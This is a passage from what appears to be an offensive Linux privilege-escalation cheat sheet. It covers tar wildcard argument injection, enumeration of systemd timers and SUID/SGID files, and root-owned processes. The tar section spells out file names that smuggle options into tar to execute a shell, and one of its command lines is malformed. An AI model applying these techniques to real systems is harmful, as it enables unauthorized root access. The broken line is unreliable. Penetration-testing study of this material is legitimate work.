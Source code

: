 This works with chmod as well.

#### Tar arbitrary command execution

You can do the same with tar.

```bash
touch -- --checkpoint=1 # Create a file named --checkpoint=1
touch -- --checkpoint-action=exec=/bin/sh # Create a file named --checkpoint-action=exec=/bin/sh
--checkpoint=1 --checkpoint-action=action=exec=sh shell.sh # Perform shell.sh every file it go through
```

### Timers

Timers are systemd unit files whose name ends in . timer that control . service files or events. Timers can be used as an alternative to cron.

Timers are systemd unit files with a suffix of .timer. Timers are like other unit configuration files and are loaded from the same paths but include a [Timer] section which defines when and how the timer activates.

```bash
systemctl list-timers --all
```

Privileged timers are written to **/etc/systemd/system/** and **/usr/lib/systemd/system** while user level are written to **~/.config/systemd/user/**

```bash
# /etc/systemd/system/
ls -la /etc/systemd/system/
find /etc/systemd/system/ -perm -u=s -type f -print 2>/dev/null # Search for files with the SUID
find /etc/systemd/system/ -perm -g=s -type f -print 2>/dev/null # Search for files with the SGID

# /usr/lib/systemd/system
ls -la /usr/lib/systemd/system
find /usr/lib/systemd/system -perm -u=s -type f -print 2>/dev/null # Search for files with the SUID
find /usr/lib/systemd/system -perm -g=s -type f -print 2>/dev/null # Search for files with the SGID

# ~/.config/systemd/user/
ls -la ~/.config/systemd/user/
```

You can abuse from timers the same way as for cron jobs.

For more information about that technique refer to [T1053.006 - Scheduled Task/Job: Systemd Timers](https://attack.mitre.org/techniques/T1053/006/)

### Linux Processes

The idea is to find a process run as root. Some interesting finding can be:

- Process running as root that execute a script that we can change
- Process running as root that that we could read to find interesting information
- ...
